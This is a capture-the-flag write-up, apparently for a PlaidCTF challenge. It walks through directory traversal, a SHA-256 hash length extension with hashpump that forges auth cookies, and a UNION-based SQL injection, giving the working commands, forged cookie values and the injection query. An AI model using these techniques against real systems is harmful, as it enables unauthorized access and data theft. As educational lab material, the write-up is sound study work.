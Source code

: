 ## Step 1 - Directory Traversal

This is what the site looks like:

![Home Page](http://i.imgur.com/sZVdEiP.png)

The admin page doesn't have a login option, it just says "Sorry, not authorized."

![Admin page](http://i.imgur.com/UDhGLnJ.png)

The page also set two cookies. One named *hsh*, and one named *auth*. *auth* is a URL encoded serialized PHP boolean `b:0;`. Setting *auth* to `b:1;` does nothing. (in fact it just gets reset)

**auth:** `b%3A0%3B`

*hsh* is a hash with a length of 64 characters. sha-256 is widely used and fits that description, so it's a safe bet. This cookie is probably protecting *auth*.

**hsh:** `ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3`

Visiting other pages on the site exposes a directory traversal vulnerability.

![Traversal Vuln](http://i.imgur.com/R9jiqHe.png)

Substituting *index* for *admin.php* exposes the full admin.php source code.

![admin.php traversed](http://i.imgur.com/ERvPwIY.png)

The unrendered source looks like this:

	<?php
		require_once("secrets.php");
		$auth = false;
		if (isset($_COOKIE["auth"])) {
			$auth = unserialize($_COOKIE["auth"]);
			$hsh = $_COOKIE["hsh"];
			if ($hsh !== hash("sha256", $SECRET . strrev($_COOKIE["auth"]))) {
				$auth = false;
			}
		}
    	else {
			$auth = false;
			$s = serialize($auth);
			setcookie("auth", $s);
			setcookie("hsh", hash("sha256", $SECRET . strrev($s)));
		}
		if ($auth) {
			if (isset($_GET['query'])) {
        		$link = mysql_connect('localhost', $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
        		mysql_select_db($SQL_DATABASE) or die('Could not select database');
        		$qstr = mysql_real_escape_string($_GET['query']);
        		$query = "SELECT amount FROM plaidcoin_wallets WHERE id=$qstr";
        		$result = mysql_query($query) or die('Query failed: ' . mysql_error());
        		$line = mysql_fetch_array($result, MYSQL_ASSOC);
        		foreach ($line as $col_value) {
          			echo "Wallet " . $_GET['query'] . " contains " . $col_value . " coins.";
        		}
			} else {
         		echo "<html><head><title>MtPOX Admin Page</title></head>			<body>Welcome to the admin panel!<br /><br /><form name='input' action='admin.php' method='get'>Wallet ID: <input type='text' name='query'><input type='submit' value='Submit Query'></form></body></html>";
			}
    	}
    	else echo "Sorry, not authorized.";
	?>

Taking a closer look at the source code confirms some previous suspicions and reveals how the *auth* cookie is created and checked. Retrieving the contents of *secrets.php* should be enough to forge new cookies!

![forbidden sauce](http://i.imgur.com/wmLNBDA.png)

What the hell! The source code of *secrets.php* isn't visible. The source of index.php reveals that The Plague had actually taken *some* precautionary measures to keep his secrets hidden. 

	if (strstr($_GET['page'], "secrets")) { echo "ERROR!\n"; }

Time to get creative.

## Step 2 - Hash Length Extension

There are several factors that have come into play here that make HLE possible.

1. SHA-256 is vulnerable to hash length extension attacks.

2. PHP unserialization will accept a valid input and ignore any data after the `;`. This means the *auth* cookie will always work as long as it starts with `b:0;` or `b:1;`.

3. The string at the end of the hashed text is reversed. This means any backwards data added to *hsh* will be at the beginning of the *auth* cookie.

4. The length of the key is known, or enough time is available to bruteforce it. (A little recon on the *about* page reveals the length to be 8)

Recommended reading:

* https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks 
* http://en.wikipedia.org/wiki/Length\_extension\_attack

[hashpump](https://github.com/bwall/HashPump) can do the heavy lifting for us. 

	$ ./hashpump -s "ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3" -d ";0:b" -a ";1:b" -k 8
    
    967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1

	;0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b

The hash that hashpump outputs is the new *hsh*, and the second string is the new, reversed, hex-encoded *auth* string, which needs to be turned the right way around and URL-encoded.

This is what the *auth* cookie looks like the right way around, and properly encoded.

<pre>	b%3A1%3B`%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3A0%3B
</pre>
    
Plug these in for the cookie values and suddenly *admin.php* looks like this:

![Admin Panel](http://i.imgur.com/DZhJJmz.png)

The only working ID is 0. All others return a blank page.

![1333337 coins](http://i.imgur.com/2QJzuD0.png)

## Step 3 - SQL Injection

At this point it makes sense to go back and look at *admin.php* some more. mysql_real_escape_strings() won't help you here, Mr. The Plague. In fact, just submitting the form without putting anything in the text box returns a SQL error.

	Query failed: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
    
The input box expects a numerical ID, but what goes after the ID is up to the creative problem solver.

From this point on, finding the key just takes some probing. The final query is quite simple:

	1 UNION SELECT id FROM plaidcoin_wallets
    
![Win.](http://i.imgur.com/Im7rPxl.png)
